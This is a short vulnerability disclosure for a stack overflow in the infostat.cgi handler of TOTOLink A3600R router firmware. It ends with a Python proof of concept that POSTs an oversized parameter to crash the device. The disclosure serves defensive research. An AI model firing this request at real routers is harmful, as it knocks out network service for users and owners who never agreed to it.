

Affect device: TOTOLink WiFi Router A3600R V4.1.2cu.5182_B20201102 (http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36) 

Vulnerability Type: Stack overflow 

Impact: Denial of Service(DoS) 

# Vulnerability description 
The stack overflow vulnerability is in the in the `fread` function in the `infostat.cgi`  


We can see that  `stdin` is obtained directly from the http request parameter .Then they will be spliced to stack by function fread without any security check,which causes stack overflow.

This vulnerability allows attackers to perform a Denial of Service(DoS)  via the `CONTENT_LENGTH` parameter by POST the page `/cgi-bin/infostat.cgi` with long Code 

# POC
```python
import requests
data = {'a':'a'*0x4000}
res = requests.post("http://11.11.11.2/cgi-bin/infostat.cgi", data=data)
print(res.content)
```
